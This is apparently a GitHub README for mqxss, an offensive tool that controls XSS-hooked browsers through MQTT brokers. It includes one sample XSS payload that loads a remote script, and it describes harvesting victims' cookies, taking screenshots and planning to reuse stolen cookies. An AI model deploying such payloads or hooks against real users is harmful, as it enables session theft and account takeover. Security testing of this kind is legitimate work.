 # mqxss


**mqxss acts as a client to communicate with hooked browsers over MQTT**

![Screenshot from 2023-07-03 00-57-22](https://github.com/grampae/mqxss/assets/36344197/72bda6c6-7e27-4269-8bc3-19d7b171a76a)



I created this without a lot of bells and whistles so that the user could send raw JS to the hooked browser.  One might even consider this to be a poor mans BEeF as no server is required, you can use a public broker (however currently uses obfuscation, encryption is in the works).

Hooked browsers will communicate in the MQTT topic on the broker you specify, there are many public/free brokers to test this with.

Currently all that is needed is to set the desired MQTT broker, port and base topic within the x.js file and then connect to the same broker with the client.  The x.js file has the Paho MQTT JS library included within it.

Then send your XSS payload to the victim while the mqxss client is running, ex: '"><script src=https://example.com/x.js></script> or something similar, if vulnerable you should get a notification saying the browser has connected with some basic details including cookies etc.  Future version will generate JS payload so that you don't have to manually set it with broker information.
 
![a](https://github.com/grampae/mqxss/assets/36344197/20096c91-2e9e-4302-b5a9-e2edd665d382)

 
**Features:**

- **Currently only works with mqtt servers that use secure websockets however future version will supports mqtts as well.**
- **view hooked browsers**
- **view past hooked (unhooked) browsers**
- **send js to currently hooked browsers and get response if available**
- **pushover notification**
- **screenshot of hooked browser**

**Todo:**

- [ ] Encryption (currently just obfuscated)
- [ ] Set user , password  for brokers that require it at runtime
- [ ] Generate js payload at runtime to hook browsers with
- [ ] Open browser with hooked browser cookies for convenience
